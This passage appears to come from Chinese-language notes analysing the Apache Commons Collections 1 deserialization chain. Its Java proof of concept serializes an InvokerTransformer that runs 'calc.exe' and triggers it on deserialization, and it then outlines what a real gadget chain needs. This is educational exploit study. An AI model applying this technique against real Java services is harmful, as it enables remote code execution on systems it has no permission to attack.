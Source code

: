 在这里执行了命令，然后我们再来模拟一下利用情景

- 为了方便，攻击者受害者写在同一函数
- 使用文件写入，代替网络传输

**由于InvokerTransformer继承了Serializable类，是可以成功序列化的**

![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_42_6aFmOWhg.png)

再来尝试一下，使用IO操作，模拟网络IO操作

```java
package com.myproject;
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.*;

public class test {

    public static void main(String[] args) throws Exception {
        //1.客户端构造序列化payload，使用写入文件模拟发包攻击
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class},new Object[]{"calc.exe"});
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(invokerTransformer);
        //2.服务端从文件中读取payload模拟接受包，然后触发漏洞
        //服务端反序列化payload读取
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
         //神奇第一处：服务端需要自主构造恶意input
        Object input = Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));
        //神奇第二处：服务端需要将客户端输入反序列化成InvokerTransformer格式，并在服务端自主传入恶意参数input
        InvokerTransformer invokerTransformer_in = (InvokerTransformer) objectInputStream.readObject();
        invokerTransformer_in.transform(input);
    }
}
```
![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_43_6qrLznlK.png)

在此时我们会发现如果我们要利用这个反射机制作为漏洞的话，需要开发人员帮助我们做以下事儿：

1. 写一个payload作为input
2. 接收客户端输入的参数，反序列化成InvokerTransformer类
3. 再刻意调用InvokerTransformer的transform函数

这种是根本行不通的，所以就面临一些问题：

1. payload需要再客户端可以自定义构造，再传入服务端
2. 服务端需要把我们传入的exp反序列化成一个在代码中可能使用到的类
3. 代码在正常操作中会调用这个类中一个可触发漏洞的函数（当然这个函数最后会进入到InvokerTransformer类的transform函数，从而形成命令执行）
4. 如果这个反序列化的类和这个类触发命令执行的方法可以在一个readObject复写函数中恰好触发，那么就对服务端上下文没有要求了！
